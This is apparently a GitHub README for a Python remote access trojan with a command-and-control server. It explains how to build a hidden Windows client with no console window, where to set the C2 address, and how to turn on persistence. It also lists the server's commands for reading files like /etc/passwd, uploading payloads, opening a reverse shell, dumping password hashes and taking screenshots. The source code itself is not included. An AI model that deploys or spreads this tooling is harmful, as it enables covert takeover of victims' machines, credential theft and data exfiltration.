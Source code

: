 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile client.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

### Usage
#### Client

The client don't need any argument to be executed, in order to make quick attacks easier. However, if you want to specify the server IP and port, you can modify those values in the `client.py`, at the end of the file: (`Client` folder)

```python
C2_IP = 'YOUR_IP'
C2_PORT = YOUR_PORT
```

You can run the client by executing the following command:

```bash
python3 client.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
exec        : Execute a system command in the local machine
help        : Show this help message
exit        : Exit the server
==================== ONCE AGENT SELECTED:
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
search      : Search a file on the target's filesystem 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
hashdump    : Dump the hashes from the target (may crash on Windows)
ipconfig    : Retrieve the IP Configuration from the current target 
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
====================
```

### Misc

#### Persistancy

In order to enable persistancy, you must uncomment the following line twice in the `client.py`, at the end of the file:

```python
#client.persistence()
```